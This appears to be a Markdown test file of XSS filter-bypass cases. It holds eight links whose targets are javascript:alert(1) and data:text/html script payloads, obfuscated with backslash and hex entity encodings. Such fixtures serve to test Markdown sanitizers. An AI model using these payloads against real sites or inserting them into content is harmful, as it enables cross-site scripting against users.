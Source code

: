 # Hex Entity Encoding Confusion

## Test 1: Protocol Confusion with Hex Entities
[Click here](&5c;x6a;&5c;x61;vascript&5c;x3a;alert&5c;x28;1&5c;x29;)

## Test 2: Backslash Entity Encoding Bypass
[Click here](java&5c;script&5c;:alert&5c;(1&5c;))

## Test 3: Mixed Backslash and Standard Encoding
[Click here](j&5c;a&5c;v&5c;a&5c;s&5c;c&5c;r&5c;i&5c;p&5c;t&5c;:&5c;a&5c;l&5c;e&5c;r&5c;t&5c;(&5c;1&5c;))

## Test 4: Double Backslash Entity Encoding
[Click here](&5c;&5c;x6a;&5c;&5c;x61;vascript&5c;&5c;x3a;alert&5c;&5c;x28;1&5c;&5c;x29;)

## Test 5: Backslash in Markdown Syntax
[&5c;[nested&5c;]](javascript:alert(1))

## Test 6: Colon Entity Bypass
[Click here](javascript&3a;alert(1))

## Test 7: Parentheses Entity Bypass
[Click here](javascript:alert&28;1&29;)

## Test 8: Forward Slash Entity Bypass
[Click here](data&3a;text&2f;html,&3c;script&3e;alert(1)&3c;&2f;script&3e;)